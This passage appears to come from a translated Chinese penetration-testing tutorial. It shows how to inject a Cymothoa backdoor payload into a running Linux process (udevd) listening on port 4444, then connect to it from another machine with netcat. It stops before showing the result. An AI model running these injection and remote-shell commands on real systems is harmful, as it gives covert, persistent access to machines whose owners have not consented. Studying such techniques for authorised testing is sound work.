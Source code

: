 要列出 Linux 系统中运行的进程，我们可以使用带有`-aux`选项的`ps`命令。以下截图显示了运行该命令的结果。输出中有几列可用，但为了这个目的，我们只需要以下列：

+   `用户`（第一列）

+   `PID`（第二列）

+   `命令`（第十一列）

![](img/8796c99d-334c-4e5c-ae36-5be189131ed9.png)

在这个练习中，我们将注入到`2765`（`udevd`）PID 中，并且我们将使用载荷编号`1`。我们需要使用`-y`选项设置载荷的端口号[port number `4444`]。以下是这种情况下的 Cymothoa 命令：

```
    ./cymothoa -p 2765 -s 1 -y 4444  
```

以下是此命令的结果：

![](img/5b628fca-ba34-4dbf-8a66-b9e23e78a142.png)

让我们尝试从另一台机器登录到我们的后门（端口`4444`）上，发出以下命令：

```
    nc -nvv 172.31.99.244 4444  
```

这里，`172.31.99.244`是目标服务器的 IP 地址。

以下是结果：
